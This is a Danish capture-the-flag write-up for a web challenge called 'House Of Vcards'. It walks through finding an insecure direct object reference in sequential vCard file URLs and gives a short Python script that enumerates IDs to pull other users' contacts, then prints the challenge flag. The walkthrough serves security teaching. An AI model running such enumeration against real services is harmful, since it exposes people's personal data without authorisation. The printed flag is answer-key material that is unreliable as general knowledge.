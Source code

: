 # House Of Vcards Writeup

## Challenge information
Navn: House Of Vcards

Forslået Sværhedsgrad: Let

Haaukins API: Ja

Beskrivelse: 

Jeg har lavet en ny smart side, så folk kan holde styr på alle deres kontakter, men jeg er lidt nervøs for at have så meget personfølsom data liggende.

Kan du tjekke siden igennem og se, hvad du kan få adgang til?

http://contacts-vault.hkn

## Writeup

Vi kan tilgå http://contacts-vault.hkn og finder forsiden til hvad ligner en kontaktbog:

![Forside](Forside.png)

Ved at trykke på knappen ```Join Contact Vault``` kan vil lave en ny bruger.

Vi er derefter mødt med denne side:

![accountpage](accountpage.PNG)

Ved at trykke ```New``` i øverst højre hjørne kan vi oprette en kontakt:

![newcontact](newcontact.png)

Efter en kontakt er lavet popper den op i vores dashboard, hvor vi enten kan downloade et såkaldt "Vcard" til den. Redigere kontakten eller slette den.

Hvis vi kigger på netværkstrafikken via. browser konsollen når vi trykker på Vcard knappen kan vi se den laver en request til ```http://contacts-vault.hkn/files/vcards/201.vcf```

![download Vcard](downloadvcard.png)

Hvis vi laver en request til feks. ```http://contacts-vault.hkn/files/vcards/200.vcf``` får vi et Vcard med data i, som vi ikke normalt burde have adgang til:

![IDOR example](IDORexample.png)

Det ligner derved at vores flag vil ligge i en af disse kontakter.

Vi kan herfra enten downloade hver kontakt og tjekke om der er et flag i filen. Eller vi kan lave et script som leder efter dette for os.

Jeg valgte at skrive følgende lille script som går igennem .vcf filerne fra 1 til 200:

```python
import requests

url = "http://contacts-vault.hkn/files/vcards/"
ext = ".vcf"

for i in range(0,200):
    r = requests.get(f"{url}{str(i)}{ext}")

    if "DDC" in r.text:
        print(r.text)
```

Dette giver os flaget flere gange:

![script run](scriptrun.png)

```DDC{b3tt3r_f1x_th4t_IDOR_vuln_b3f0r3_n3xt_GDPR_4ud1t}```

